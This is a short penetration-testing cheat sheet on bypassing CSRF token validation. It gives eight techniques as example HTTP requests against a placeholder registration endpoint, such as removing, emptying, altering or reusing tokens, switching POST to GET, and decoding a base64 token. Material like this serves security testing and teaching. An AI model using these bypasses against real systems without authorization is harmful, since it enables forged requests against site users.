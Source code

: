 # Bypass CSRF

1. Change single character
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaab
```

2. Sending empty value of token
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=
```

3. Replace the token with same length
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaabaa
```
4. Changing POST / GET method
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
GET /register?username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa HTTP/1.1
Host: target.com
[...]
```

5. Remove the token from request
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=aaaaaaaaaaaaaaaaaaaaaa
```
Try this to bypass
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456
```

6. Use another user's valid token
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=ANOTHER_VALID_TOKEN
```

7. Try to decrypt hash
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=MTIzNDU2
```
MTIzNDU2 => 123456 with base64

8. Sometimes anti-CSRF token is composed by 2 parts, one of them remains static while the others one dynamic
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=vi802jg9f8akd9j123
```
When we register again, the request like this
```
POST /register HTTP/1.1
Host: target.com
[...]

username=dapos&password=123456&token=vi802jg9f8akd9j124
```
If you notice "vi802jg9f8akd9j" part of the token remain same, you just need to send with only static part
